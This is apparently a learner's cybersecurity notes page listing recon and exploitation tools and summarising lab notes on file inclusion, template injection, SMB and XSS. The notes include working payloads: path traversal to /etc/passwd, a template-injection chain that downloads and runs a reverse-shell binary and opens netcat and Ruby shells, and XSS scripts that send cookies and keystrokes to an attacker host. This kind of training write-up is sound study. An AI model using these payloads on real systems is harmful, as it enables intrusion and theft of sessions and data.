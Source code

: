 ---

#   Cybersecurity: Notes and Projects



----- 

[Back to website home page](https://jeremylaratro.link)

-----

> ### **My latest post:**
## [OWASP Juice Shop -- Notes and Walkthrough](/CS/juice_shop)
### Next post: Algorithm & Data Structure Notes in Python

-----------

### **Resources: My Reading List & Accounts**
<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* [Codecademy Profile](https://www.codecademy.com/profiles/JeremyLaratro)
* [TryHackme.com Profile (In the top 8% of users!)](https://tryhackme.com/p/jeremylaratro)
* HackTheBox.com 
* Hacktricks.xyz
* [Picoctf.org Profile](https://play.picoctf.org/users/jeremylaratro)
* [LeetCode Profile](https://leetcode.com/jeremylaratro/)

</details>


----------


### **Overview, Tools, and Pathways**

>These are some of the go-to tools I use when starting a machine, CTF, challenge, etc. These tools generally fall into the 
> reconnaissance and vulnerability assessment steps. 

<details>

<summary>
General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

-----------

<details>
 
<summary>
|Exploitation and Investigation Tools|
</summary>




### **Web and Network Exploitation**

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.


>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>####  SQLMap 

>> - SQLi scanner and exploitation tool

>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>####  xsssniper

>> - XSS scanner and exploitation tool

>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


----------


### **Offline Tools**


>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>####  cewl, crunch

>> - Custom password and wordlist generators


>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>

----------

### **Areas I'd Like to Improve**



<details>

<summary>
Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python, and beginner/intermediate with Java and C++ (ie. comfortable with general OO, functions, 
> classes, namespaces, and familiar with pointers, but not as efficient or fluent with them as I am with Python 
> (ie. with Leetcode, for example, problems which challenge me in Python are extremely difficult for me in C++. I'd
> like to improve my proficiency in C++ and Java, and also increase the number of languages that I am at least
> comfortable with in terms of syntax. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------

## **Notes**
> *Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.*


<details>
<summary>
Local File Inclusion and Remote File Inclusion Overview
</summary>

-----

>### **LFI: Local File Inclusion**

-----

Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>
<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>


<details>
<summary>
SMB Exploitation
</summary>


SMB- server message block

* Notes from TryHackMe's SMB room


Enumeration / Recon:

SMB uses port 445

A common service name is 'microsoft-ds'

After enumerating the system and finding a potential SMB exploitation pathway:

Further enumerate the SMB service using smbclient:


````


smbclient -L ip 


````


* Share names will be listed


	
Check for the guest or anonymous login, ie:

Sharenames:


````

ADMIN$

C$

WorkShares

````


After identifying potentially vulnerable share, attempt login:


````

smbclient \\\\ip\\<share>>

````


Upon entry --> 

* browse directories, look for sensitive files

* potential path traversal, pivot to other shares



</details>


<details>
<summary>
XSS
</summary>



Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check:

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~



	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



